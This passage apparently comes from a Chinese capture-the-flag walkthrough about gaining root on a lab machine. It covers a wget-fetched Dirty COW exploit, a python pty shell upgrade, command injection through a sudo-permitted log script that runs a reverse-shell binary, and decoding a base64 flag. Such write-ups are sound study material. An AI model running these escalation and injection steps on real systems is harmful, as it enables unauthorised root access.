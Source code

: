     反弹shell之后uname -a

    发现版本是16.04.1，这个版本可以用脏牛提取(CVE-2016-5195)

    本地打开HTTP服务然后shell里wget一下

    gcc -pthread dirty.c -o dirty -lcrypt

    ./dirty <新密码>

    然后等待提权完成，创建好了新的账户firefart,密码自定义的

    su的时候发现需要从终端启动，用python起一个终端环境

    python -c 'import pty;pty.spawn("/bin/bash")'

    不知道为什么显示账户创建成功但是没有这个用户
    ```

    换参考答案的思路

    ```php

    sudo -l 发现这个能不需要密码执行当前目录下的xxxlogauditorxxx.py

    尝试命令拼接 

    sudo ./xxxlogauditorxxx.py 
    
    出现日志选择页面

    /var/log/auth.log | ./shell.elf

    这样就以root权限返回一个shell

    我不知道怎么把开启的监听放后台再连接，于是乎又开了一个msf【捂脸】

    监听到，shell，whoami

    已经是root了

    ```
    
* 敏感信息获取

    ```php
    
    cd root

    ls

    meterpreter下载这个图片看一眼，说

    `Sorry,this is not the flag,but what you are looking for is near. Look within yourself to find the answer you seek.`
    
    strings flag.png

    提取最后的base64解码

    把base内容写flag.txt里面

    cat flag.txt | base64 -d

    就能看到这个基因项目的日记了，nice
